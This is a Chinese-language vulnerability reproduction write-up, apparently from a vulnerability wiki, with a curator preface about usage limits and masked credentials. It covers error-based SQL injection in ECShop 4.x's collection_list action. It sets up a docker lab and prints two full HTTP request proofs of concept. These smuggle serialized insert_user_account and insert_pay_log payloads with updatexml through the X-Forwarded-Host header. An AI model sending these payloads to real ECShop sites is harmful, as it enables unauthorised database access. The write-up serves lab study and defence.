




## 核对与使用边界

- 凭据处理：本文抓包中的可识别会话/防伪或认证值已仅将中段替换为星号，保留首尾及原长度便于对照；遮罩后的历史值不能作为可用登录凭据。原操作、请求方法和攻击表达式保留。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Ordinary user login; collection_list; X-Forwarded-Host reaches template; user_account/pay_log insert functions; MySQL error functions

- **适用与权限边界（1）**：Correct explicit user-auth requirement; not same entry as unauthenticated Referer chain。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（2）**：Title4.x broader than tested4.0.6; fixed/affected bounds missing。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **凭据与会话边界（3）**：Two different gadgets preserved; serialized lengths require verification and live cookies should be placeholders。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **证据待核（4）**：Precise source links。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# ECShop 4.x collection_list SQL注入

## 漏洞描述

ECShop是上海商派网络科技有限公司（ShopEx）旗下——B2C独立网店系统，适合企业及个人快速构建个性化网上商店，系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

参考阅读：

- https://mp.weixin.qq.com/s/xHioArEpoAqGlHJPfq3Jiw
- http://foreversong.cn/archives/1556

## 环境搭建

执行以下命令启动 ECShop 4.0.6：

```
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080`安装向导。数据库地址填写为`mysql`，用户名和密码均为`root`。




注册普通用户user。




## 漏洞复现

该漏洞的原理与[xianzhi-2017-02-82239600](https://github.com/vulhub/vulhub/tree/master/ecshop/xianzhi-2017-02-82239600)类似，可以利用任意`insert_`函数来实现SQL注入。

有多种`insert_`函数可以使用。例如，`insert_user_account`：

```
GET /user.php?act=collection_list HTTP/1.1
Host: your-ip:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953auser_account|a:2:{s:7:"user_id";s:38:"0'-(updatexml(1,repeat(user(),2),1))-'";s:7:"payment";s:1:"4";}|45ea207d7a2b68c49582d2d22adf953a
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b**********************************fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8**********************************d87;PHPSESSID=bb2**************************60c;real_ipd=172.18.0.1;
Connection: close
```




请注意，您应该首先以普通用户身份登录。

`insert_pay_log`用作 POC ：

```
GET /user.php?act=collection_list HTTP/1.1
Host: 192.168.1.162:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953apay_log|s:44:"1' and updatexml(1,repeat(user(),2),1) and '";|
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b**********************************fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8**********************************d87;PHPSESSID=bb2**************************60c;real_ipd=172.18.0.1;
Connection: close
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
